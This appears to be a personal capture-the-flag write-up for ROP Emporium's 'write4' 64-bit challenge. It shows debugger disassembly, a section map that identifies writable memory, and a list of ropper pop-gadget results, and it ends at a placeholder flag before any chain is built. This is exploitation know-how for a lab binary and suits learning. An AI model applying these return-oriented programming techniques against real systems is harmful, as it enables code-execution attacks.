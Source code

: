 ROPEmporium
write4 - 64bit

Initially unable to determine way forward.  Watched CryptoCat's video for help

Need to find a place in memory (writable memory) to write our string (flag.txt)
To do this, we need some gadgets to help out.

ropper -- --search "mov"

pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:	push   rbp
   0x0000000000400618 <+1>:	mov    rbp,rsp
   0x000000000040061b <+4>:	mov    edi,0x4006b4
   0x0000000000400620 <+9>:	call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:	nop
   0x0000000000400626 <+15>:	pop    rbp
   0x0000000000400627 <+16>:	ret

   	pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.

This function (usefulGadgets) has a useful gadget we can use:
0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15

So we'll need to find 'pop r15' somewhere in the program

pwndbg> info target
Symbols from "/home/blue/Projects/BlueGh05t/CTF/ropemporium/write4/write4".
Local exec file:
	`/home/blue/Projects/BlueGh05t/CTF/ropemporium/write4/write4', file type elf64-x86-64.
	Entry point: 0x400520
	0x0000000000400238 - 0x0000000000400254 is .interp
	0x0000000000400254 - 0x0000000000400274 is .note.ABI-tag
	0x0000000000400274 - 0x0000000000400298 is .note.gnu.build-id
	0x0000000000400298 - 0x00000000004002d0 is .gnu.hash
	0x00000000004002d0 - 0x00000000004003c0 is .dynsym
	0x00000000004003c0 - 0x000000000040043c is .dynstr
	0x000000000040043c - 0x0000000000400450 is .gnu.version
	0x0000000000400450 - 0x0000000000400470 is .gnu.version_r
	0x0000000000400470 - 0x00000000004004a0 is .rela.dyn
	0x00000000004004a0 - 0x00000000004004d0 is .rela.plt
	0x00000000004004d0 - 0x00000000004004e7 is .init
	0x00000000004004f0 - 0x0000000000400520 is .plt
	0x0000000000400520 - 0x00000000004006a2 is .text
	0x00000000004006a4 - 0x00000000004006ad is .fini
	0x00000000004006b0 - 0x00000000004006c0 is .rodata
	0x00000000004006c0 - 0x0000000000400704 is .eh_frame_hdr
	0x0000000000400708 - 0x0000000000400828 is .eh_frame
	0x0000000000600df0 - 0x0000000000600df8 is .init_array
	0x0000000000600df8 - 0x0000000000600e00 is .fini_array
	0x0000000000600e00 - 0x0000000000600ff0 is .dynamic
	0x0000000000600ff0 - 0x0000000000601000 is .got
	0x0000000000601000 - 0x0000000000601028 is .got.plt
	0x0000000000601028 - 0x0000000000601038 is .data
	0x0000000000601038 - 0x0000000000601040 is .bss

	Data section starts at 0x601028

	pwndbg> ropper -- --search pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: /home/blue/Projects/BlueGh05t/CTF/ropemporium/write4/write4
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400588: pop rbp; ret; 
0x0000000000400693: pop rdi; ret; 
0x0000000000400691: pop rsi; pop r15; ret; 
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret; 


ROPE{a_placeholder_32byte_flag!}

